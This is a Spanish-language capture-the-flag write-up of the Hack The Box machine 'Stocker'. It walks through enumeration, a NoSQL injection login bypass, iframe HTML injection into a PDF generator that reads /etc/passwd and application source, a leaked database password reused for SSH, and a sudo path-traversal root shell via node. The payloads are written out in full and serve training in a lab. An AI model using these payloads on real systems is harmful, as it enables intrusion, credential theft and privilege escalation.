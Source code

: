 ```yaml
---
layout: single
title: Stocker - Hack The Box
excerpt: "Stocker es una máquina Linux de dificultad media con un sitio web en el puerto 80 que anuncia muebles. Mediante enumeración vHost se descubre dev.stocker.htb, que muestra un login en NodeJS vulnerable a inyección NoSQL, permitiendo el acceso a una e-shop. Al generar un pedido, se crea un PDF vulnerable a inyección HTML, lo que permite leer archivos mediante iframes. Se extraen credenciales de index.js, reutilizadas para SSH. La escalada de privilegios se logra explotando un path traversal en un comando con comodín en sudoers, que ejecuta archivos JavaScript."
date: 2025-03-11
classes: wide
header:
  teaser: /assets/images/CAP.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - pathtraversal
  - htmlinjection
  - nosql
  - linux
  - express
---
```


![/Imagenes/Stocker/CAP.png](/assets/images/CAP.png)

------------
## Enumeración

- Identificación de SO:
  
```bash
ping -c 1 10.10.11.196
```
![Pastedimage20240831133115.png](/Imagenes/Stocker/Pastedimage20240831133115.png)

Como vemos según lo que nos indica el `ttl` es una maquina `Linux`

- Identificación de puertos abiertos en la maquina:
  
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.196 -oG allPorts
```

- Identificación de servicios corriendo en los puertos abiertos:
```bash
nmap -p22,80 -sCV 10.10.11.196 -oN targeted
```

![Pastedimage20240831133708.png](/Imagenes/Stocker/Pastedimage20240831133708.png)

- Al ver que hay un puerto 80 con el servicio `http` corriendo por debajo podemos lanzar el siguiente script de nmap:

```bash
nmap -p80 --script="http-enum" 10.10.11.196 -oN webScan
```

- Para ver información básica sobre la web que hay corriendo por el servidor:

```bash
whatweb http://stocker.htb/
```

-----------------
## Fuzzing

- Miramos si hay subdominios:

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.stocker.htb" http://stocker.htb/
```

![Pastedimage20240831134343.png](/Imagenes/Stocker/Pastedimage20240831134343.png)

Como hemos visto hemos encontrado un subdominio en el que vamos a mirar que es lo que hay dentro de el y haremos un poco de enumeración.

![Pastedimage20240831134725.png](/Imagenes/Stocker/Pastedimage20240831134725.png)

-------
## Explotación

Como podemos observar el nuevo `subdominio` es un panel de login, podemos probar varios tipos de técnicas para poder bypassearlo o identificación de vulnerabilidades como lo siguiente:

- Probar passwords por defecto
- SqlIjection
- NoSQLInjection

**De primeras lo que tenemos que hacer al ver `Express` & `NodeJs` es interceptar la petición con `burpsuite` y ver si podemos mandar peticiones en `JSON`**

`Cuando una aplicacion esta construida con NodeJs y Express normalmente estan construidas sobre bases de datos diferentes a MySql, como por ejemplo PostgreSQL y MongoDB, estas dos son bases de datos no relacionales, por lo que podemos hacer Inyecciones SQL para bypassear el panel de Login`

- Antes tenemos que cambiar el `Conten-Type:` `application/json`
- Payload:
  
```bash
{"username": {"$ne": null}, "password": {"$ne": null} }
```

Una vez que hemos bypasseado el panel de Login empezamos a indagar un poco en la pagina web para encontrar vulnerabilidades que podemos encontrar.

---------------
## HTML INJECTION

**A la hora de crear un pedido nos crea un archivo pdf, si nosotros lo capturamos con Burpsuite a la hora de la creación del archivo pdf podemos comprobar que podemos modificar los elementos que hay dentro del pdf, dentro de todos estos elementos el que nos importa a nosotros es el `titulo`, el que se muestra por pantalla básicamente.**

**Por lo general los generadores de PDF pueden renderizar etiquetas html, lo que nos abre una posibilidad de hacer una inyeccion html.**
**Hemos intentado inyectar unas etiquetas `<script>` dentro del pdf, al darle a recargar el servidor devuelve un error interno, lo que significa que intento representar las etiquetas pero fallo.**

**Teniendo en cuenta la información anterior, es posible que podamos cargar el generador de PDF y mostrar archivos del sistema mediante `iframes`. Considere la siguiente carga útil HTML.**

- Payload:
  
```bash
<iframe src='file:///etc/passwd' width='1000' height='1000'></iframe>
```

`iframes, o Inline Frames, son elementos HTML que pueden cargar otra página HTML dentro de la misma documento. El atributo src es el origen del contenido del servidor externo o interno.`

- Ejemplo practico en `Burpsuite`:

![Pastedimage20240831141423.png](/Imagenes/Stocker/Pastedimage20240831141423.png)

Al recargar veremos el documento pdf generado...

![Pastedimage20240831141651.png](/Imagenes/Stocker/Pastedimage20240831141651.png)

Como vemos tenemos un LFI en el que podemos listar archivos internos del servidor, lo próximo que tendríamos que hacer es buscar algún archivo que nos proporcione credenciales como algún `id_rsa` o algún archivo de configuración del servidor.

---------------
## Wildcard Injection

**Sin embargo, nos encontramos con un problema, que es que no sabemos dónde está la aplicación de desarrollo situado. Un truco fácil que podemos usar para determinar potencialmente esta ubicación es enviar JSON con formato incorrecto en uno de los puntos de conexión de la aplicación para ver si produce un error. Usemos el punto de conexión de compra como lo hicimos previamente. Para hacer esto podemos atrapar otra solicitud en Burp y quitar uno de los corchetes }. Después Al quitar el corchete y enviar la solicitud, obtenemos el siguiente mensaje de error.**

![Pastedimage20240831142307.png](/Imagenes/Stocker/Pastedimage20240831142307.png)

**A partir del error, podemos ver que la aplicación está alojada en la carpeta `/var/www/dev/` y dado que se trata de un `NodeJS` podemos intentar leer varios nombres de archivo predeterminados para encontrar la función principal de la aplicación aplicación. Por lo general, esto se denomina `index.js` o `main.js` o incluso `server.js`.**

- Hacemos lo mismo con `Burpsuite` aplicando otro payload:
  
```bash
<iframe src='file:///var/www/dev/index.js' width='1000' height='1000'></iframe>
```

- Nos devuelve el siguiente archivo de configuracion del servidor:
  
```bash
const express = require("express");
const mongoose = require("mongoose");
const session = require("express-session");
const MongoStore = require("connect-mongo");
const path = require("path");
const fs = require("fs");
const { generatePDF, formatHTML } = require("./pdf.js");
const { randomBytes, createHash } = require("crypto");
const app = express();
const port = 3000;
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?
authSource=admin&w=1";
```

**Como hemos visto anteriormente el usuario era `angoose` y la password como vemos es `IHeardPassphrasesArePrettySecure`**

------------
## Conexión SSH

```bash
ssh agoose@10.10.11.196
```

----------
## Escalada de Privilegios

```bash
sudo -l
```

![Pastedimage20240831142949.png](/Imagenes/Stocker/Pastedimage20240831142949.png)

**Lo que nos esta diciendo es que el usuario angoose puede ejecutar node como `sudo` ejecutando un script de la ruta `/usr/local/scripts/*.js`**

Por lo que podemos hacer lo siguiente, con el siguiente `payload` podemos ejecutar node e iniciar una shell como `root`:

```bash
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

Como solo podemos ejecutar scripts de la ruta `/usr/local/scripts` podemos probar a en el directorio `/tmp` crear el siguiente script y ejecutar el siguiente comando:

- shell.js

```bash
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```
- Comando:

```bash
sudo node /usr/local/scripts/credentials.js/../../../../../../tmp/shell.js
```

**Lo que estamos realizando es un `path traversal` y estamos bypasseando que solo se puedan ejecutar scripts de dicha ruta.**
